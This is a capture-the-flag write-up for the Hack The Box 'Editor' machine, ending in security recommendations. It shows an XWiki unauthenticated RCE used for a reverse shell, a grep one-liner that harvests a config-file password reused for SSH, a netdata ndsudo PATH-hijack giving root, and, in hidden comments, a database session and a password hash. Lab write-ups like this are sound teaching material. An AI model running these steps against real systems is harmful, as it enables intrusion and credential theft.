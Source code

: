 > This is a write-up for Editor HTB machine.
> We'll give recommendations to secure the machine

# Reconnaissance

1. Scan with nmap: 

```sh
$ sudo nmap -sC -sV -O -A --min-rate=2000 -p- 10.10.11.80 > scan.nmap
```

[Results](scan.nmap) tells us ssh is open on port 22, as well as 3 http services on port `80`, `8080` and `9091`. `80` is for an nginx showcase website, `8080` is some documentation running on Jetty, and `9091` is a python http server. The last one was then closed, so was probably started by another player, since I don't have the premium version.

2. Add `editor.htb` to our `/etc/hosts`.

When searching for any CVE on `Jetty 10.0.20`, there was only a DOS vulnerability in 2024 (`CVE-2024-22201`). `nginx 1.18.0` seems to be vulnerable to `CVE-2021-23017`, an off-by one error allowing RCE. Let's see if metasploit has an exploit for that CVE. While metasploit doesn't have module for this, we found the following exploit [](https://github.com/M507/CVE-2021-23017-PoC). However, it doesn't look like we went in the right direction. Focusing on the `XWiki` doc, we found that `CVE-2025-24893` allows "Unauthenticated RCE". The version running is `15.10.8`, so it's indeed vulnerable. [This website](https://dollarboysushil.com/posts/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC/) explains how the vulnerability works very well. Here's [the PoC](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC). Using the exploit, we can get a reverse shell:

```
$ whoami
xwiki
```

We don't have access the `/home/oliver` directory, that probably contains the user flag. Let's search for some passwords that could be contained [in the file system](hibernate.xml):

```sh
$ find / -name "*.xml" 2>/dev/null | xargs grep -i "password"
[...]
/etc/xwiki/hibernate.cfg.xml:    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

If we try the password using `mysql`, the prompt freezes, which is not the case with other credentials that raise an error. 


<!-- $ cd root
$ ls
META-INF
robots.txt
WEB-INF
$ cat robots.txt
User-agent: *
# Prevent bots from executing all actions except "view" and
# "download" since:
# 1) we don't want bots to execute stuff in the wiki by
#    following links! (for example delete pages, add comments,
#    etc)
# 2) we don't want bots to consume CPU and memory
#   (for example to perform exports)
Disallow: /xwiki/bin/viewattachrev/
Disallow: /xwiki/bin/viewrev/
Disallow: /xwiki/bin/pdf/
Disallow: /xwiki/bin/edit/
Disallow: /xwiki/bin/create/
Disallow: /xwiki/bin/inline/
Disallow: /xwiki/bin/preview/
Disallow: /xwiki/bin/save/
Disallow: /xwiki/bin/saveandcontinue/
Disallow: /xwiki/bin/rollback/
Disallow: /xwiki/bin/deleteversions/
Disallow: /xwiki/bin/cancel/
Disallow: /xwiki/bin/delete/
Disallow: /xwiki/bin/deletespace/
Disallow: /xwiki/bin/undelete/
Disallow: /xwiki/bin/reset/
Disallow: /xwiki/bin/register/
Disallow: /xwiki/bin/propupdate/
Disallow: /xwiki/bin/propadd/
Disallow: /xwiki/bin/propdisable/
Disallow: /xwiki/bin/propenable/
Disallow: /xwiki/bin/propdelete/
Disallow: /xwiki/bin/objectadd/
Disallow: /xwiki/bin/commentadd/
Disallow: /xwiki/bin/commentsave/
Disallow: /xwiki/bin/objectsync/
Disallow: /xwiki/bin/objectremove/
Disallow: /xwiki/bin/attach/
Disallow: /xwiki/bin/upload/
Disallow: /xwiki/bin/temp/
Disallow: /xwiki/bin/downloadrev/
Disallow: /xwiki/bin/dot/
Disallow: /xwiki/bin/delattachment/
Disallow: /xwiki/bin/skin/
Disallow: /xwiki/bin/jsx/
Disallow: /xwiki/bin/ssx/
Disallow: /xwiki/bin/login/
Disallow: /xwiki/bin/loginsubmit/
Disallow: /xwiki/bin/loginerror/
Disallow: /xwiki/bin/logout/
Disallow: /xwiki/bin/lock/
Disallow: /xwiki/bin/redirect/
Disallow: /xwiki/bin/admin/
Disallow: /xwiki/bin/export/
Disallow: /xwiki/bin/import/
Disallow: /xwiki/bin/get/
Disallow: /xwiki/bin/distribution/
Disallow: /xwiki/bin/jcaptcha/
Disallow: /xwiki/bin/unknown/
Disallow: /xwiki/bin/webjars/ -->




<!-- efb12e25-6ba5-4d01-a530-445d648fa232 -->

<!-- In `/var/lib/xwiki/data/mails/`

`neal:cacaca` -->

If we try to connect through `ssh` using the following credentials, it works: `oliver:theEd1t0rTeam99`.From there, we can get the user flag. We are part of `netdata` group. Let's search for some priviledge escalation vulnerability with netstat. The `CVE-2024-32019` enables executing code as root (https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93). We can then create a file containing the command we want to execute as root, let's say `cat /root/root.txt`. The file need to be named as one of possible executable names searched by `ndsudo`, like `nvme`. Then we can specify the directory containing as the path when executing  `ndsudo`: 

```sh
$ echo "cat /root/root.txt" > /tmp/nvme
$ PATH=/tmp ./ndsudo nvme-list
```

We got the root flag.

<!-- 
$ mysql -u xwiki -ptheEd1t0rTeam99
mysql: [Warning] Using a password on the command line interface can be insecure. -->

<!-- `./linpeas.sh` or `python3 LinPEAS.py` -->


<!-- 
```sh
$ mysql -u xwiki -ptheEd1t0rTeam99
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1784
Server version: 8.0.42-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

```
mysql> SELECT user, host, plugin, authentication_string
    -> FROM mysql.user
    -> WHERE user = 'debian-sys-maint';
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
| user             | host      | plugin                | authentication_string                                                  |
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
| debian-sys-maint | localhost | caching_sha2_password | $A$005$Fohc\77S]v3@
*sj
   --Hg3U311hw2L7LkCsuX.ARUs35Lrib/Bax4bKLKVa2KD |
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
```


`$A$005$Fohc\77S]v3@*sj --Hg3U311hw2L7LkCsuX.ARUs35Lrib/Bax4bKLKVa2KD` -->



# Recommendations

1. XWiki `15.10.8` has an RCE vulnerability for non authenticated used. It is necessary to update XWiki, to version `15.10.11` at least. 

2. Remove sensitive information from `/etc/xwiki/hibernate.cfg.xml`

3. Remove `oliver` from `netdata` group if non necessary.

4. `netdata` has a local priviledge escalation vulnerability. It should be upgraded to version `1.45.3`.

# CVEs

1. CVE-2025-24893

2. CVE-2024-32019